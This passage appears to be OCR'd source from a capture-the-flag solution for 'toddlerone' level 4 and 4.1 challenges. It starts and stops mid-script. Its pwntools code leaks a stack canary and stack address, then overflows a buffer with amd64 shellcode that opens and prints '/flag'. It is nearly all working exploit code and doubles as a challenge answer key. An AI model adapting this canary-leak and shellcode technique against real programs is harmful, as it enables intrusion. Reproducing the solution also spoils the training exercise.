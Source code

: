 recv_data=p.recv(6)
recv_data=recv_data+b'\x00\x00'
stack_add=u64(recv_data)-0x1110
print(hex(stack_add))

overflow_size=0x50
p.sendlineafter("Payload size: ",str(overflow_size))

payload=asm(shell_code, arch='amd64')
shell2_len=len(payload)
print(shell2_len)
payload+=b'\x90'*(0x30-shell2_len)+p64(0x76b4c39e66cc1aad)+p64(cc)+p64(0)+p64(stack_add)
p.sendlineafter("bytes)!\n",payload)

p.interactive()

level 4.1
from pwn import *

p=process(['/challenge/toddlerone_level4.1'])

shell_code='''
push 0x616c662f
mov BYTE PTR [rsp+4],0x67
mov eax,2
push rsp
pop rdi
xor esi,esi
syscall

mov edi,1
push rax
pop rsi
xor edx,edx
mov r10,1000
push 40
pop rax
syscall
'''
overflow_size=0x59
p.sendlineafter("Payload size: ",str(overflow_size))

payload=b'\x90'*(0x50-6-8)+b'REPEAT'+p64(0xe9b83ad361fb2b32)+b'\x90'*8
p.sendlineafter("bytes)!\n",payload)

p.recvuntil("You said: ")

p.recvuntil("\n",drop=1)
recv_data=p.recv(7)
can=b'\x00'+recv_data
cc=u64(can)
print(hex(cc))

overflow_size=0x78
p.sendlineafter("Payload size: ",str(overflow_size))
